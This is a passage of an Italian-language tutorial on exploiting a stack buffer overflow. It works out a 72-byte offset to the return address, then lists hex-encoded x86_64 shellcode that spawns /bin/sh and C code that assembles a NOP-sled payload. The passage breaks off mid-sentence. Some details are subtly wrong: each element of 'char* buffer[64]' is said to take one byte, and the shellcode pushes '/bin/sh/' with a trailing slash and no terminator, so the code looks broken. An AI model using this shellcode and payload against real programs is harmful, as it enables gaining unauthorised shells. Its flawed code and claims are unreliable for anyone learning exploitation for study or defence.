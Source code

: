Sapendo che per ogni elemento del `char* buffer[64]` occupa 1 byte e che il registro`sfp`o `brp`, che punta all’inizio dello stack (primo elemento), occupa 8 bytes. 
Quindi facendo i calcoli per sovrascrivere `ret` dobbiamo spostarci di:

- 64 byte di `buffer`
- 8 byte di `SFP` (registro `rbp` salvato)

Totale: 64 + 8 = 72 byte.

Questo significa che l’offset necessario per raggiungere  e sovrascrivere il registro di ritorno `ret` è **72 byte** rispetto a Buffer.

## Creazione del Payload

Per sfruttare questa vulnerabilità, dobbiamo creare un **payload**.

Un **payload** è la parte dell’input che viene iniettata nello stack (o in un'altra zona della memoria) per forzare il programma a eseguire un'azione non prevista, come ad esempio l’avvio di una shell.

Nel nostro caso, vogliamo eseguire una **shellcode**, ovvero una sequenza di istruzioni che apre una shell (`/bin/sh`).

### Scrittura della Shellcode

La shellcode va scritta in **linguaggio assembly**, e poi convertita in **formato esadecimale** per poter essere iniettata all’interno del programma vulnerabile.

L’obiettivo della shellcode sarà invocare la system call `execve("/bin/sh", NULL, NULL)` sulla nostra architettura (x86_64), che ci darà accesso a una shell interattiva.

```c
unsigned char shellcode[] =
  "\x6a\x3b"                    // push   0x3b
  "\x58"                        // pop    rax
  "\x99"                        // cdq
  "\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x2f"  // mov rbx, "//bin/sh/"
  "\x53"                        // push   rbx
  "\x48\x89\xe7"                // mov    rdi, rsp
  "\x52"                        // push   rdx
  "\x57"                        // push   rdi
  "\x48\x89\xe6"                // mov    rsi, rsp
  "\x0f\x05";                   // syscall
```

Dopo avere sviluppato la shellcode dobbiamo completare la creazione del payload

```c
char payload[80];
//Preparazione payload
memset(payload, 0x90, sizeof(payload)); // NOP sled

memcpy(payload+16, shellcode, sizeof(shellcode)); // shellcode a offset 16
```

In questo frammento di codice
